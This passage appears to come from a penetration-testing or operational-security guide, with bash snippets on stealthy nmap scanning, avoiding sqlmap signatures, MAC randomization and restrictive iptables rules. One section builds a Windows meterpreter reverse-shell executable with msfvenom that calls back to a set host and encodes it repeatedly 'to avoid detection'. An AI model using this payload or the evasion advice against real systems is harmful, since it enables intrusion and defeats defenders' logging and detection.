 ```bash
# GOOD: Rate-limited, respectful scanning
nmap -T2 --scan-delay 1s -p 80,443 target.example.com

# BAD: Aggressive scanning that creates logs
nmap -T5 -A -v target.example.com
```

### Web Application Testing

```bash
# GOOD: Manual, controlled testing
curl -H "User-Agent: Mozilla/5.0..." https://target.com/app

# BAD: Automated tool signatures
sqlmap --batch --dbs -u "https://target.com/app?id=1"
```

### Payload Generation

```bash
# Use generic payloads, avoid tool signatures
msfvenom -p windows/meterpreter/reverse_tcp \
    LHOST=192.168.1.100 LPORT=4444 \
    -f exe -o payload.exe

# Encode/encrypt to avoid detection
msfvenom ... --encoder x86/shikata_ga_nai -i 5
```

---

## Network Security

### Wireless Security

```bash
# Monitor for hostile networks
iwlist scan | grep -E "ESSID|WPA|WEP"

# Use MAC randomization
sudo ifconfig wlan0 ether $(openssl rand -hex 6 | sed 's/../&:/g; s/:$//')
```

### Firewall Configuration

```bash
# Restrictive outbound rules
iptables -A OUTPUT -p tcp --dport 80 -j ACCEPT
iptables -A OUTPUT -p tcp --dport 443 -j ACCEPT
iptables -A OUTPUT -p tcp --dport 53 -j ACCEPT
iptables -A OUTPUT -j DROP
```

---